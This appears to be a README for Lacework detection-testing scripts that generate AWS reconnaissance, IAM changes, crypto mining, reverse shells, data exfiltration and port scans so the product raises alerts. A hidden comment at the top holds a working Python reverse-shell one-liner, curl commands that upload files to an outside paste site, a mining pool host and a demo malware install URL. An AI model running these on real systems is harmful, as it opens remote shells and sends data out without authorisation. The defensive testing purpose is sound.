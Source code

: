 <!--
```
testing scripts
	aws known bad
		high volume of unauthorized api calls
		iam access key changes

	aws anomaly
		reconnaissance
		malicious changes

	workload known bad
		crypto mining
		reverse shell
		port scanning

	workload anomaly
		new external traffic
		new internal traffic
		new binaries / children


aws script
	√reconnaissance (+ high vol unauth calls)
	√malicious changes


workload
	√crypto mining
	√reverse shell
	√port scanning (new internal traffic)
	√data exfil example -> pastebin
		 curl --upload-file ~/Downloads/Bike.dmg https://paste.c-net.org/
		dd if=/dev/urandom of=/tmp/test.5mb bs=1024 count=5000 && curl --upload-file /tmp/test.5mb https://paste.c-net.org/

traffic generator app


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

pool.minexmr.com
lwmalwaredemo.com
http://lwmalwaredemo.com/install-demo-1.sh

```
-->
# Lacework Testing Scripts

## Summary

## Testing Scenarios

### AWS

| Script | Alerting Types | Instructions |
| aws-recon.sh | Anomaly & Known-bad | Dependencies: `aws` cli tool.<br/><br/>Using *an existing IAM user* or on an instance provisioned with an instance profile known to Lacework, you may execute this script to generate a high volume of (read-only) API calls to AWS across many different services (EC2, Secrets Manager, RDS, IAM, KMS).  Depending on the permissions of your user, you will see either anomaly-only alerts, OR anomalies + policy alerts if this activity generates a high number of access-denied errors.<br/><br/>To provide permissions to the `aws` cli tool, either run this from an EC2 host with privileges assigned as an instance profile, OR run this script with environment variables set for some combination of `AWS_PROFILE`, or `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`. |
| aws-iam-s3-activity.sh | Anomaly & Known-bad | Dependencies: `aws` cli tool.<br/><br/>Using *an existing IAM user* or on an instance provisioned with an instance profile known to Lacework, you may execute this script to generate activity in the form of creating an IAM user, assigning policy, creating and uploading content to an S3 bucket, and deleting the S3 bucket, and IAM user.  This will require administrator level permissions. The alerts generated will be a combination of policy & anomaly based alerts. <br/><br/>To provide permissions to the `aws` cli tool, either run this from an EC2 host with privileges assigned as an instance profile, OR run this script with environment variables set for some combination of `AWS_PROFILE`, or `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`. |

### Workloads

| Script | Alerting Types | Instructions |
| reverse-shell.sh | Anomaly & Known-bad |  |
| xmrig.sh | Known-bad |  |
| data-exfil.sh | Anomaly |  |
| port-scan.sh | Anomaly & Known-bad |  |
| Testing Appliance | Special |  |